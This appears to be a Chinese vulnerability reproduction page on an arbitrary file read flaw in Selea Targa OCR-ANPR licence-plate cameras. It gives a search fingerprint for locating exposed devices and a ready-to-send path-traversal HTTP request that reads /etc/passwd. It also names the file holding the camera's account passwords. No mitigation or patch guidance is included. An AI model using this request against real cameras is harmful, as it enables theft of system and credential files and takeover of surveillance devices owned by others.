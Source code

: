 # Selea OCR-ANPR摄像机 SeleaCamera 任意文件读取漏洞

## 漏洞描述

Selea OCR-ANPR摄像机 SeleaCamera 存在任意文件读取漏洞，攻击者通过构造特定的Url读取服务器的文件

## 漏洞影响

```
Selea Selea Targa IP OCR-ANPR Camera iZero
Selea Selea Targa IP OCR-ANPR Camera Targa 512
Selea Selea Targa IP OCR-ANPR Camera Targa 504
Selea Selea Targa IP OCR-ANPR Camera Targa Semplice
Selea Selea Targa IP OCR-ANPR Camera Targa 704 TKM
Selea Selea Targa IP OCR-ANPR Camera Targa 805
Selea Selea Targa IP OCR-ANPR Camera Targa 710 INOX
Selea Selea Targa IP OCR-ANPR Camera Targa 750
Selea Selea Targa IP OCR-ANPR Camera Targa 704 ILB
```

## 网络测绘

```
"selea_httpd"
```

## 漏洞复现

登录页面如下

![](images/202202140932431.png)

发送如下请求包读取文件

```plain
GET /CFCARD/images/SeleaCamera/%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close
```

![](images/202202140932589.png)

摄像头账号密码文件为 **mnt/data/auth/users.json**

![](images/202202140932748.png)




